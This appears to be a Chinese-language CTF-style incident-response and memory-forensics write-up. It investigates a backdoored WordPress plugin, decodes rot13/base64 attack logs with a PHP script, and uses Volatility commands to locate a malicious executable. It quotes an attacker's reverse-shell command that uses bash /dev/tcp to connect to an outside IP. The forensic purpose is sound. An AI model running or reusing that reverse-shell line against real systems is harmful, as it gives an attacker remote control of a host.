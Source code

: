 # 事件响应
## Web Server
### 任务
- 查找并提交存在后门插件的名称与版本号，并指出该后门的功能
- 分析并指出攻击者如何获取到应用管理员权限
- 提交上述攻击所使用的URL以及获取到管理员信息时执行的完整语句（含注释）
- 请阐述攻击者如何在获得管理员权限后，写入Webshell以提升其权限
- 查找攻击者获得写入的Webshell文件绝对路径
- 查看并提交攻击者写入的Webshell内容
- 分析反弹Shell时使用的恶意IP地址和端口
- 分析攻击者在服务器上开启的端口号及其目的
### 调查过程
在webserver中查看历史命令，计划任务，后门用户和端口，进程
存在其他的端口8024
![](attachment/Pasted%20image%2020230220121713.png)
在Web Server查看本机IP后利用同网段主机访问对应的web服务，发现为WordPress的网站，于是在本机去访问插件对应的目录进行调查
`/var/www/html/wp-content/plugins`
发现在 ==hello.php== 中存在后门代码，功能是能够进行sql查询，但是语句经过rot13和base64的加密
![](attachment/Pasted%20image%2020230219141212.png)

版本在文件开头的注释中
![](attachment/Pasted%20image%2020230219141339.png)

在/var/log/apache2 中发现有日志记录，参数名与插件后门一致
![](attachment/Pasted%20image%2020230219145338.png)
在foot-dark.php中又有命令执行相关日志
![](attachment/Pasted%20image%2020230219150410.png)

查看后发现这个页面可以进行命令执行
![](attachment/Pasted%20image%2020230219150548.png)

关于日志中的加密语句，利用php来进行解密会更加合适和快捷
```php
<?php
$file = 'log.txt';
$file_data = file_get_contents($file);
$data_array = explode("\n", $file_data);
foreach($data_array as $sql_str) {
	echo $sql_str;
	$trans = base64_decode(str_rot13(urldecode($sql_str)));
	echo $trans;
	file_put_content('out.txt',$trans.PHP_EOL, FILE_APPEND);
}
?>
```
细看解密后的log后会发现有一行看了user表，执行后效果是这样
![](attachment/Pasted%20image%2020230220121458.png)
获得用户名与密码
同样对日志中的webshell相关的日志url解码分析
![](attachment/Pasted%20image%2020230220140730.png)
反弹shell
`bash -c "bash i >& /dev/tcp/0x1d205d4/12450 0>&1"`
IP:1.210.5.212
## Cache server
### 工作任务

### 调查过程

# 数字调查取证
## Dump.raw
### 工作任务
- 识别内存中的恶意进程
- 查找并提交恶意程序在硬盘中上的完整路径
- 分析PE文件以描述其行为
- 分析PE文件寻找攻击者向外传递收集到的信息发送方的地址
### 调查过程
查看镜像类型
![](attachments/Pasted%20image%2020230227090948.png)
查看进程并输入到文本
volatility -f  \[filename\] --profile=\[imageinfo\]  pslist > pslist.txt
![](attachments/Pasted%20image%2020230227091850.png)
volatility -f  \[filename\] --profile=\[imageinfo\]  pstree > pstree.txt
![](attachments/Pasted%20image%2020230227091918.png)
导出对应进程文件
volatility -f \[filename\] --profile=\[imageinfo\] memdump -p \[PID\] -D ./

volatility -f\[filename\] --profile=\[imageinfo\]  filescan
![](attachments/Pasted%20image%2020230227092450.png)
文件路径： `\Device\HarddiskVolume1\User\IEUser\Downloads\SteamInstaller.exe`
在这个dmp文件里面找敏感内容
![](attachments/Pasted%20image%2020230227093739.png)

将exe文件导出
volatility -f \[filename\] --profile=\[imageinfo\] dumpfiles -Q \[偏移地址\] --dump-dir ./
IDA进行逆向
![](attachments/Pasted%20image%2020230227104206.png)